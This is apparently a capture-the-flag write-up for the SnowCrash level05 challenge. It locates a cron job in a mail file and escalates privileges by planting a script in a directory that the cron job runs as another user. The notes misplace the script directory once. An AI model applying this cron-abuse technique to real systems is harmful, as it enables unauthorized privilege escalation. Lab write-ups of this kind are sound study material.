 "You have a new mail" upon logging in

find / -iname "mail" 2> /dev/null

/etc/mailcap			nothing 
/usr/bin/mail-lock		executable
/var/log/mail.err		permit denied
/var/log/mail.log		permit denied
/var/mail				directory + gotta look
/var/spool/mail			directory + gotta look
/rofs/etc/mailcap		nothing
/rofs/var/mail			directory + gotta look
/rofs/var/spool/mail	lrwxrwxrwx 1 root root 7 Aug 29  2015 /rofs/var/spool/mail -> ../mail

level05@SnowCrash:/var/mail$ cat level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

level05@SnowCrash:/usr/sbin$ cat openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

/var/mail/level05 is a cron job that runs every 2 minutes and executes all the scripts in
/usr/sbin/openarenaserver

Knowing this we can put a costum script in there such as :
touch script.sh
	```#!/bin/sh
	getflag > /tmp/flag.txt```

now wait for the cron to execute our script and fetch the result in /tmp/flag.txt